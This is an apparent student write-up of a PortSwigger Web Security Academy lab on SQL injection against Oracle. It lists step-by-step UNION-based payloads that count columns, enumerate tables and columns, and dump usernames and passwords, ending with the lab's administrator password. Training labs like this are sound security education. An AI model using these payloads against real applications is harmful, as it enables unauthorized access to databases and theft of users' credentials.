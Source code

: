 # Lab: SQL injection attack, listing the database contents on Oracle
###### tags: `Portswigger Web Security Academy` `Web`
* Description:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 
* Goal:  To solve the lab, log in as the administrator user.
* Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

## Exp
1. Determine # of columns
Payload: `?category=Lifestyle' union select NULL,NULL from dual--`

2. Determine which column contained text string
Payload: `?category=Lifestyle' union select 'a','b'from dual--`

3. According to [cheat sheet](https://portswigger.net/web-security/sql-injection/examining-the-database)
We can use `all_tables` to search `table_name`
For instance: `SELECT * FROM all_tables`
Payload: `?category=Lifestyle' union select table_name,NULL from all_tables--`
    :::spoiler Result
    ![](https://i.imgur.com/Qbp5dqq.png)
    :::
4. Then tried the specific one - `USERS_LXJEEY`
Payload: `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_LXJEEY'--
`
    :::spoiler Result
    ![](https://i.imgur.com/M1ZoLph.png)
    :::
5. Tried dig deeper
Payload: `?category=Gifts' union SELECT USERNAME_YRYUYR,PASSWORD_OUTVCI FROM USERS_LXJEEY--
`
    :::spoiler Result
    ![](https://i.imgur.com/sbtaeGi.png)
    :::
Finally, we know the password of `administrator` is `z0mtqaim65dnb4yo034l`
:::spoiler Success Screenshot
![](https://i.imgur.com/cEOjCoq.png)
:::

## Reference